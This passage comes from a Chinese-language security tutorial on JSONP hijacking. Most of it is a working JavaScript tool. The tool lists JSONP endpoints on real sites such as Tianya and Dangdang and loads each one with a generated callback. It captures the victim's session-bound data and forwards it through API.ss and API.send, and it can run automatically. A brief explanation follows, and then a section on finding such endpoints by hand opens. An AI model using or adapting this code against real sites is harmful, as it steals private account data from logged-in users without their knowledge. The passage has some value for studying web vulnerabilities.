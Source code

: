 ```
            link: 'http://passport.tianya.cn/online/checkuseronline.jsp?callback='
        }, {
            name: '当当网',
            link: 'http://message.dangdang.com/api/msg_detail.php?customer_id=o4P00TweebicwjhS72NWew%3D%3D&data_type=jsonp&pageindex=1&module=1&pagesize=10&_=1416721945308&callback='
        }],
        start: function() {
            var self = this,
                inter = setInterval(function() {
                    if (!self.hooks[0]) {
                        clearInterval(inter);
                        return self.end();
                    }
                    self.get(self.hooks[0].link, self.hooks[0].name);
                    self.hooks.shift();
                }, 1000);
        },
        get: function(link, name, fn) {
            var hash = 'bomb' + String(new Date().getTime());
            window[hash] = function(data) {
                var _data = typeof(data) === 'object' ? JSON.stringify(data) : String(data);
                API.ss('### ' + name + '\n```\n' + _data + '\n```\n');
            };
            API.loadJS(link + hash);
        },
        end: function() {
            API.send('end');
        }
    };
    API.listen(function(act) {
        if (act === 'start') {
            JSONP.start();
        }
    });
    AUTOSTART ? JSONP.start() : null;
})

```

这段代码是很容易理解的，我们首先定义一个`JSONP接口`列表，然后通过`start`方法进行逐个接口的访问以及数据获取，最后直接进行数据返回以及保存，就这么简单。

0x03 漏洞挖掘
=========

* * *

一个好的工具是需要很多资源的支撑。

说了这么多，那我们如何去挖掘`JSONP接口`呢？

### 1. 手动挖掘

手动挖掘有利于深入学习原理以及发挥更多的不可能。
